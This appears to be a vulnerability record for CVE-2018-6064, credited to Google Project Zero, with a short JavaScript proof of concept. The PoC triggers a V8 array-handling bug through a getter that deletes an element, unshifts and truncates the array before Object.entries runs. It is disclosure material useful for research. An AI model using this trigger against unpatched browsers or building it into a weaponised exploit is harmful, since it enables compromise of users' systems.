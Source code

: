 # CVE-2018-6064

- Report: Jan 2018
- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
let arr = [];
arr[1000] = 0x1234;

arr.__defineGetter__(256, function () {
    delete arr[256];

    arr.unshift(1.1);
    arr.length = 0;
});

Object.entries(arr).toString();
```

## Reference

- [Issue](https://crbug.com/798644)
